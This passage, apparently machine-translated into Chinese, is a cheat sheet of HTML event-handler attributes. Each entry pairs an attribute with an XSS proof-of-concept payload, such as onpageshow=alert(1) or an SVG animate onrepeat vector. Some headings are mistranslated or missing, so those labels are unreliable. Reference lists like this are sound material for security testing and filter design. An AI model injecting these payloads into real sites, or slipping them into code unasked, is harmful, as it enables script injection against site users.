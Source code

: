 #### **onmessage**

当从 postMessage 调用收到消息事件时发生

```
<body onmessage=print()>
```

#### **onpageshow**

页面显示时触发

```
<body onpageshow=alert(1)>
```

#### **Onplay 和 onplaying**

播放资源时被激发

```
<audio autoplay onplay=alert(1)><source src="audio.wav" type="audio/wav"></audio>
```

#### **onpopstate**

当历史改变时触发

```
<body onpopstate=print()>
```

#### **onprogress**

视频/音频开始下载时触发

```
<audio controls onprogress=alert(1)><source src=audio.mp3 type=audio/mpeg></audio>
```

#### **重复一次**

当 svg 动画重复时触发

```
<svg><animate onrepeat=alert(1) attributeName=x dur=1s repeatCount=2 />
```

#### **无记忆**

调整窗口大小时触发

```
<body onresize="print()">
```

当页面滚动时发生

```
<body onscroll=alert(1)><div style=height:1000px></div><div id=x></div>
```
